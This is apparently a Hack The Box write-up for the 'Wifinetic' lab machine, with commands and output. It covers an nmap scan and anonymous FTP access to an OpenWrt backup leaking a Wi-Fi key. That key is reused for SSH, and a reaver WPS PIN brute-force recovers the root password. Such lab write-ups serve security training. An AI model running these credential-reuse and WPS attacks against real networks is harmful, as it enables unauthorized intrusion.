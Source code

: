# Wifinetic

<p align="center"><img src="assets/Wifinetic.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Wifinetic
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
ip=10.10.11.247; ports=$(sudo nmap -p- --min-rate=1000 -T4 $ip | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//); sudo nmap -p$ports -sC -sV $ip -Pn

PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.89
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

## Foothold

### `user1` → `netadmin` 🚩

#### Searching for Vulnerabilities

- ftp server allows anonymous login and contains an OpenWRT backup
- after extracting the tar archive, the file `etc/config/wireless` contains a password:
    
    ```
    config wifi-iface 'wifinet0'
    	option device 'radio0'
    	option mode 'ap'
    	option ssid 'OpenWrt'
    	option encryption 'psk'
    	option key 'VeRyUniUqWiFIPasswrd1!'
    	option wps_pushbutton '1'
    ```
    
- the file `etc/passwd` shows, that user `netadmin` has a home directory

#### Exploitation

1. We can login via ssh as `netadmin` with password `VeRyUniUqWiFIPasswrd1!` 🚩


## Privilege Escalation

### `netadmin` → `root` 🏁

#### Searching for Vulnerabilities

- `iwconfig` output shows, that there is a interface `mon0` in monitor mode:
    
    ```
    eth0      no wireless extensions.
    
    wlan2     IEEE 802.11  ESSID:off/any
              Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
    
    mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    
    wlan1     IEEE 802.11  ESSID:"OpenWrt"
              Mode:Managed  Frequency:2.412 GHz  Access Point: 02:00:00:00:00:00
              Bit Rate:9 Mb/s   Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
              Link Quality=70/70  Signal level=-30 dBm
              Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
              Tx excessive retries:0  Invalid misc:6   Missed beacon:0
    
    wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    
    hwsim0    no wireless extensions.
    
    lo        no wireless extensions.
    ```

- the `MigrateOpenWrt.txt` file from the ftp server indicates, that the tool `reaver` might be installed:
    
    ```
    |  +-----------------------------------------------+    |
    |  |          Test and Troubleshoot                |    |
    |  +-----------------------------------------------+    |
    |  |                                               |    |
    |  |   - Test Wifi connectivity and performance    |    |
    |  |   - Verify all services are functioning       |    |
    |  |   - Address and resolve any issues            |    |
    |  |   - Test for security issues with Reaver tool |    |
    |  |                                               |    |
    |  +-----------------------------------------------+    |
    ```


#### Exploitation

1. [reaver](https://www.notion.so/reaver-92a9bcd96c3d47b6a13a3df17641d19d?pvs=21) can be used to bruteforce the WPS PIN and recover the wifi password:
    
    ```
    $ reaver -i mon0 -b 02:00:00:00:00:00 -vv
    
    Reaver v1.6.5 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
    
    [+] Waiting for beacon from 02:00:00:00:00:00
    [+] Switching mon0 to channel 1
    [+] Received beacon from 02:00:00:00:00:00
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [!] Found packet with bad FCS, skipping...
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received WSC NACK
    [+] Sending WSC NACK
    [!] WPS transaction failed (code: 0x04), re-trying last pin
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK
    [+] Pin cracked in 3 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
    [+] AP SSID: 'OpenWrt'
    [+] Nothing done, nothing to save.
    ```

2. We can login as `root` with password `WhatIsRealAnDWhAtIsNot51121!` 🏁
